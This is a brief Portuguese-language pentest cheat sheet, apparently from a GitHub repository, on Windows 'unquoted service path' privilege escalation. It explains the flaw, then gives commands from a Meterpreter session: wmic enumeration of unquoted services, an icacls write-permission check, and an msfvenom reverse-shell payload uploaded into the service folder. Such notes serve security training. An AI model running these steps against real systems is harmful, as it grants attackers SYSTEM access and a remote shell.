 -----
### Unquoted Path

* Quando um serviço é criado cujo caminho executável comtém espaços e não está entre aspas.
* Pode levar a uma vulnerabilidade conhecida como Unquoted Path, que permite ao usuário obter privilégios de SYSTEM.
* Se o serviço não estiver entre aspas e tiver espaços, ele trará o espaço como uma quebra e passará o resto do caminho do serviço como um argumento.

  Exemplos: C:\Program Files\First Subfolder\Second  Subfolder\Third  Subfolder\Executable.exe

O processo de Exploração
  
* Ter permissão de escrita no contexto do usuário
* Deixar o executável malicioso nessa pasta para obter um shell reverso
* Enumerar um serviço vulnerável e também enumerar permissões de gravação na pasta

~~~
exploit(multi/handler) >sessions -i 2
meterpreter > shell
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
~~~

O comando wmic acima, verifica todos os serviços que tem espaços e não tem aspas.

~~~
icacls "C:\Program Files"
~~~

O comando acima verifica permissões de escrita em uma pasta.

~~~
msfvenom -p windows/shell_reverse_tcp  LHOST=XXXX LPORT=XXXX -f exe -o B.exe
upload B.exe  "C:\\Program Files\\A Subfolder"
~~~






